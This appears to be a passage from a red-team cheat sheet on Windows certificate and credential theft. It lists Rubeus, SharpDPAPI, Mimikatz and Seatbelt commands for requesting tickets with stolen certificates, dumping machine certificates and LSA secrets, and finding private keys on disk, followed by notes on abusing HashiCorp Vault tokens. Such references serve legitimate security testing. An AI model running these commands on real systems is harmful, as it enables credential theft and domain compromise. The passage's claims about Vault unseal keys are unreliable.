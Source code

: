 #### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<FQDN DC>\c$
```

### THEFT3 Machine Certificate DPAPI
#### SharpDPAPI Dump machine certificates
```
.\SharpDPAPI.exe certificates /machine
```

#### Mimikatz Dump machine certificates
```
lsadump::secrets
crypto::certificates /export /systemstore:LOCAL_MACHINE
```

### THEFT4 Certificates on disk
#### Locate certificates and private key on disk
```
dir C:\*.pfx C:\*.pem C:\*.p12 C:\*.crt C:\*.cer C:\*.p7b C:\*.ovpn /s /b

Get-ChildItem C:\ -include ('*.pem', '*.pfx', '*.p12', '*.crt', '*.cer', '*.key', '*.ovpn') -recurse -erroraction 'silentlycontinue'
```

#### Seatbelt
```
.\Seatbelt.exe --group=InterestingFiles
```

#### Parse certificate
```
certutil -dump -v <PATH TO CERT>
```

#### Locate OpenVpn files
```
dir C:\*.ovpn /s /b

Get-ChildItem C:\ -include ('*.ovpn') -recurse -erroraction 'silentlycontinue'
```

### HashiCorp
- HashiCorp can be used to store secrets such as certificates https://www.vaultproject.io/
- Vault uses a technique called key sharing to split the master encryption key into multiple parts (minimum 2), known as unseal keys. All keys are required to unlock the vault.
- Once logged in, Vault provides an access token which is subject to access token policies. Vault Policies enforce ACLs over users to view, modify or update content on the HashiCorp vault.
- Even with root access to the machine hosting HashiCorp vault the only way to compromise HashiCorp vault is through a valid token generated using a valid authentication method such as ldap, user-pass, tokens etc.
- When authentication is done using the Vault CLI tool, a `.vault-token` file is placed in the home directory of current user. If this token file is compromised for a high privileged vault user, it could be used to escalate privileges
